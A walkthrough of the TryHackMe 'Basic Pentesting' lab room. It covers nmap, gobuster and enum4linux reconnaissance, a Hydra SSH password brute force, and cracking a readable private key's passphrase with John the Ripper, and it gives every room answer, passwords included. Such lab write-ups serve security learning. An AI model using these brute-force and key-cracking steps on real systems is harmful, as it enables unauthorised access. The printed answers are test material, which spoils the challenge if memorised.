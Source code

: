 
---
---

<div align="center">

# TryHackMe Basic Pentesting


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/99c72676aab814b94e3bc350ba627b71.png" alt="THM RootMe" width="220px" height="220px" style="margin-right: 85px;">
<img src="https://assets.tryhackme.com/img/THMlogo.png" alt="THM Logo" width="250px" height="150px" style="margin-bottom: 50px;">

<br>

🔗 [Click here to access the TryHackMe room](https://tryhackme.com/r/room/basicpentestingjt)

<br>

</div>


## IP Addresses:

* ### Target/Victim Machine
	```
	10.10.109.136 (Ubuntu 16.04)
	```

* ### Attacker Machine
	```
	10.17.35.203 (Ubuntu 23.10)
	```


<br>

## Reconnaissance:

* ### Nmap Scan

	> nmap 10.10.109.136 -o nmap.log

	```
	PORT     STATE SERVICE     VERSION
	22/tcp   open  ssh         OpenSSH 7.2p2
	80/tcp   open  http        Apache httpd 2.4.18
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
	8080/tcp open  http        Apache Tomcat 9.0.7
	```

* ### Gobuster Scan

	> gobuster dir -u 10.10.109.136 -w /usr/share/wordlists/dirb/common.txt -o gobuster.log

	```
	/.htaccess            (Status: 403) [Size: 297]
	/.hta                 (Status: 403) [Size: 292]
	/.htpasswd            (Status: 403) [Size: 297]
	/development          (Status: 301) [Size: 320]
	/index.html           (Status: 200) [Size: 158]
	/server-status        (Status: 403) [Size: 301]
	```


<br>

## THM Questions:

* _Q1_: What is the name of the hidden directory on the web server(enter name without /)? <br> _A_: `development`


<br>

## Enumeration and Bruteforcing:

* ### Enum4linux scan

	> enum4linux -a 10.10.109.136 | tee enum4linux.log

	```
	S-1-22-1-1000 Unix User\kay (Local User)
	S-1-22-1-1001 Unix User\jan (Local User)
	```

* ### Using Hydra to enumerate jan's password

	> hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.109.136 | tee hydra.log

	```
	[22][ssh] host: 10.10.109.136   login: jan   password: armando
	```


<br>

## THM Questions:

* _Q2_: What is the username? <br> _A_: `jan`
* _Q3_: What is the password?  <br> _A_: `armando`


<br>

## Attempting login (user: jan)

> ssh jan@10.10.99.188

Login successful


<br>

## THM Questions:

* _Q4_: What service do you use to access the server(answer in abbreviation in all caps)? <br> _A_: `SSH`
* _Q5_: What is the name of the other user you found(all lower case)? <br> _A_: `kay`


<br>

## Finding PrivEsc vectors:

* ### linPEAS.sh scan

	Found user `kay's` `id_rsa` readable by user `jan` (logged in via ssh) in `/home/kay/.ssh/`


<br>

## Attempting login (user: kay)

> ssh -i kay_id_rsa kay@10.10.99.188

Login unsuccessful. id_rsa encrypted.


<br>

## Bruteforcing SSH key:

* ### Attempting id_rsa decryption using JohnTheRipper

	> python3 /opt/john/run/ssh2john.py kay_id_rsa > ssh2john.txt
	
	> /opt/john/run/john ssh2john.txt --wordlist=/opt/wordlists/rockyou.txt

	```
	beeswax          (kay_id_rsa)     
	```


<br>

## Attempting login (user: kay) (passphrase: beeswax)

> ssh -i kay_id_rsa kay@10.10.99.188

Login successful.


<br>

# Final Password

> cat /home/kay/pass.bak

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```


<br>

# THM Questions:

* _Q6_: What is the final password you obtain? <br> _A_: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`


<br>

---
---

<div align="center">

💻 Created by [Jayaditya Dev](https://tryhackme.com/p/jayadityadev)

🚀 Find me on [GitHub](https://github.com/jayadityadev)

</div>

---
---

